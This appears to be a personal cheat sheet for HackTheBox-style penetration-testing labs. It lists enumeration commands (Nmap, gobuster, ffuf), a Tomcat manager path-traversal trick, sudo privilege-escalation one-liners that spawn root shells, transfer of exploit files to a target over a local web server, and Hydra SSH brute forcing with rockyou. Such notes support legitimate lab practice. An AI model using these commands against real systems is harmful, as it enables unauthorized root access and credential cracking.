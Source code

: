 # Hackthebox
- default page /robots.txt /S3cret-T3xt

- [Nmap](#nmap)
- [BurpSuite](#burp)
- [Gobuster](#gobuster)
- [FFUF](#ffuf)
- [Privilege escalation](#privilegeescalation)
- [Hydra](#hydra) - Brute force attack on ssh
- [FTP](#ftp) 
- [Cewl](#cewl) - It is use to create a worldlist using website link

- ## Nmap <a name="nmap"></a>
- ```nmap -sC -sV -vv -oA nmap/report.txt <ip>```
- ```sudo nmap -Pn -A -p- -T4 <ip> > nmap.txt```

- ## Burp Suite <a name="burp"></a>
- use ```/manager/html``` or ```/..;/manager/html``` in the middel of ```GET/ HTTP/1.1```
  - so it will like this ```GET/ /..;/manager/html HTTP/1.1```
  - whenever you see JSESSIONID=.... use this.
 
- use ```[]==``` for the password if you don't know the pass 
 
- ## Gobuster <a name="gobuster"></a>
- ```gobuster dir -u <url> -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```

- ## FFUF <a name="ffuf"></a>
- FFUF is used to filter the invalid pages 
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -r -fs 27200```
  - if you are getting the size same of all use filter size and give the size there.
 
- ## Privilege escalation <a name="privilegeescalation"></a>
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

- ## Hydra <a name="hydra"></a>
- ssh renu@127.0.0.1
- if you don't know the password do brute force attack. replace username with ```renu``` and ipaddress with ```127.0.01```
- ```hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ipaddress> ssh -t 50```
- ```hydra -L users.txt -P passwords.txt ssh://192.168.245.48 -t 4 > hydra.txt```


- ## FTP <a name="ftp"></a>
- ftp <ip>
  - user:anonymous
  - pass:
  - 230 Login successful
  - to upload a file use ```put <filename>```
  - to download a file use ```get <filename>```

- ## Cewl <a name="cewl"></a>
- ```cewl -w passwords.txt http://192.168.245.48:1898/?q=node/1```
